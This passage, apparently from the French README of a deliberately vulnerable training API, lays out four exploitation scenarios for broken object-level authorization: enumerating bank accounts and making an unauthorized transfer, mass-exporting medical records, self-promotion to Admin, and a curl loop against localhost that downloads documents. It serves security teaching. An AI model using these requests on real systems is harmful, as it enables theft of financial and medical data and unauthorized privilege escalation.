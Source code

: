## 💥 Scénarios d'exploitation

### Scénario 1 : Vol de données bancaires
```bash
# L'attaquant énumère les comptes bancaires
GET /api/bola/bank-accounts/1
GET /api/bola/bank-accounts/2
GET /api/bola/bank-accounts/3
# ...trouve un compte avec un solde élevé

# Effectue un transfert non autorisé
POST /api/bola/bank-accounts/3/transfer
Content-Type: application/json

{
    "targetAccountId": 999,  # Compte de l'attaquant
    "amount": 10000
}
```

### Scénario 2 : Accès aux dossiers médicaux
```bash
# Export en masse de dossiers médicaux
GET /api/bola/medical-records/export?recordIds=[1,2,3,4,5,6,7,8,9,10]

# Ou utilisation du contournement par GUID
GET /api/bola/medical-records/guid/550e8400-e29b-41d4-a716-446655440000
```

### Scénario 3 : Élévation de privilèges
```bash
# L'attaquant modifie son propre rôle
PUT /api/bola/users/123/role
Content-Type: application/json

{
    "newRole": "Admin"
}
```

### Scénario 4 : Téléchargement de documents confidentiels
```bash
# Énumération de documents
for i in {1..100}; do
    curl -X GET "http://localhost:5000/api/bola/documents/$i/download" \
         -H "Authorization: Bearer [TOKEN]" \
         -o "document_$i.pdf"
done
```

## 🛡️ Solutions de remédiation
